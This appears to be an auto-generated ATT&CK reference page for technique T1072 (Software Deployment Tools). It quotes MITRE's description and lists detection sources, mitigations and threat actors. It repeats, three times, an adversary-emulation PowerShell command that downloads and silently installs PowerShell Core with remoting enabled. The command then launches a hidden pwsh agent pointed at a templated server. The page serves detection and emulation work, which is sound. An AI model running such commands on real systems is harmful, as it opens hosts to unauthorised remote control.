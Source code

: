 
# Software Deployment Tools

## Description

### MITRE Description

> Adversaries may gain access to and use third-party software suites installed within an enterprise network, such as administration, monitoring, and deployment systems, to move laterally through the network. Third-party applications and software deployment systems may be in use in the network environment for administration purposes (e.g., SCCM, VNC, HBSS, Altiris, etc.).

Access to a third-party network-wide or enterprise-wide software system may enable an adversary to have remote code execution on all systems that are connected to such a system. The access may be used to laterally move to other systems, gather information, or cause a specific effect, such as wiping the hard drives on all endpoints.

The permissions required for this action vary by system configuration; local credentials may be sufficient with direct access to the third-party system, or specific domain credentials may be required. However, the system may require an administrative account to log in or to perform it's intended purpose.

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['User', 'Administrator', 'SYSTEM']
* Platforms: ['Linux', 'macOS', 'Windows']
* Remote: True
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1072

## Potential Commands

```
{'windows': {'psh': {'command': '$wc=New-Object System.Net.WebClient;\n$output="PowerShellCore.msi";\n$wc.DownloadFile("https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi", $output);\nStart-Process msiexec.exe -ArgumentList "/package PowerShellCore.msi /quiet ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1 ENABLE_PSREMOTING=1 REGISTER_MANIFEST=1" -Wait;\n$env:Path += ";C:\\Program Files\\Powershell\\6";\nStart-Process pwsh -ArgumentList "-c #{location} -server #{server} - group #{group} -executors pwsh" -WindowStyle hidden;\n', 'cleanup': 'rm PowerShellCore.msi;\n'}}}
```

## Commands Dataset

```
[{'command': {'windows': {'psh': {'cleanup': 'rm PowerShellCore.msi;\n',
                                  'command': '$wc=New-Object '
                                             'System.Net.WebClient;\n'
                                             '$output="PowerShellCore.msi";\n'
                                             '$wc.DownloadFile("https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi", '
                                             '$output);\n'
                                             'Start-Process msiexec.exe '
                                             '-ArgumentList "/package '
                                             'PowerShellCore.msi /quiet '
                                             'ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1 '
                                             'ENABLE_PSREMOTING=1 '
                                             'REGISTER_MANIFEST=1" -Wait;\n'
                                             '$env:Path += ";C:\\Program '
                                             'Files\\Powershell\\6";\n'
                                             'Start-Process pwsh -ArgumentList '
                                             '"-c #{location} -server '
                                             '#{server} - group #{group} '
                                             '-executors pwsh" -WindowStyle '
                                             'hidden;\n'}}},
  'name': 'Download, install and start new process under PowerShell Core 6',
  'source': 'data/abilities/execution/60f63260-39bb-4136-87a0-b6c2dca799fc.yml'}]
```

## Potential Detections

```json
[{'data_source': ['4688', 'Process Execution']},
 {'data_source': ['5156', 'Windows Firewall']},
 {'data_source': ['4663', 'File monitoring']},
 {'data_source': ['4657', 'Windows Registry']},
 {'data_source': ['Binary file metadata']},
 {'data_source': ['Third-party application logs']},
 {'data_source': ['4688', 'Process Execution']},
 {'data_source': ['5156', 'Windows Firewall']},
 {'data_source': ['4663', 'File monitoring']},
 {'data_source': ['4657', 'Windows Registry']},
 {'data_source': ['LOG-MD B9', 'Binary file metadata']},
 {'data_source': ['Third-party application logs']}]
```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Mitre Stockpile - Download, install and start new process under PowerShell Core 6': {'description': 'Download, '
                                                                                                       'install '
                                                                                                       'and '
                                                                                                       'start '
                                                                                                       'new '
                                                                                                       'process '
                                                                                                       'under '
                                                                                                       'PowerShell '
                                                                                                       'Core '
                                                                                                       '6',
                                                                                        'id': '60f63260-39bb-4136-87a0-b6c2dca799fc',
                                                                                        'name': 'Install '
                                                                                                'PowerShell '
                                                                                                'Core '
                                                                                                '6',
                                                                                        'platforms': {'windows': {'psh': {'cleanup': 'rm '
                                                                                                                                     'PowerShellCore.msi;\n',
                                                                                                                          'command': '$wc=New-Object '
                                                                                                                                     'System.Net.WebClient;\n'
                                                                                                                                     '$output="PowerShellCore.msi";\n'
                                                                                                                                     '$wc.DownloadFile("https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi", '
                                                                                                                                     '$output);\n'
                                                                                                                                     'Start-Process '
                                                                                                                                     'msiexec.exe '
                                                                                                                                     '-ArgumentList '
                                                                                                                                     '"/package '
                                                                                                                                     'PowerShellCore.msi '
                                                                                                                                     '/quiet '
                                                                                                                                     'ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1 '
                                                                                                                                     'ENABLE_PSREMOTING=1 '
                                                                                                                                     'REGISTER_MANIFEST=1" '
                                                                                                                                     '-Wait;\n'
                                                                                                                                     '$env:Path '
                                                                                                                                     '+= '
                                                                                                                                     '";C:\\Program '
                                                                                                                                     'Files\\Powershell\\6";\n'
                                                                                                                                     'Start-Process '
                                                                                                                                     'pwsh '
                                                                                                                                     '-ArgumentList '
                                                                                                                                     '"-c '
                                                                                                                                     '#{location} '
                                                                                                                                     '-server '
                                                                                                                                     '#{server} '
                                                                                                                                     '- '
                                                                                                                                     'group '
                                                                                                                                     '#{group} '
                                                                                                                                     '-executors '
                                                                                                                                     'pwsh" '
                                                                                                                                     '-WindowStyle '
                                                                                                                                     'hidden;\n'}}},
                                                                                        'tactic': 'execution',
                                                                                        'technique': {'attack_id': 'T1072',
                                                                                                      'name': 'Third-party '
                                                                                                              'Software'}}}]
```

# Tactics


* [Execution](../tactics/Execution.md)

* [Lateral Movement](../tactics/Lateral-Movement.md)
    

# Mitigations


* [Third-party Software Mitigation](../mitigations/Third-party-Software-Mitigation.md)

* [User Training](../mitigations/User-Training.md)
    
* [Update Software](../mitigations/Update-Software.md)
    
* [Remote Data Storage](../mitigations/Remote-Data-Storage.md)
    
* [Network Segmentation](../mitigations/Network-Segmentation.md)
    
* [Password Policies](../mitigations/Password-Policies.md)
    
* [Privileged Account Management](../mitigations/Privileged-Account-Management.md)
    
* [Multi-factor Authentication](../mitigations/Multi-factor-Authentication.md)
    
* [Active Directory Configuration](../mitigations/Active-Directory-Configuration.md)
    
* [User Account Management](../mitigations/User-Account-Management.md)
    

# Actors


* [APT32](../actors/APT32.md)

* [Threat Group-1314](../actors/Threat-Group-1314.md)
    
* [Silence](../actors/Silence.md)
    

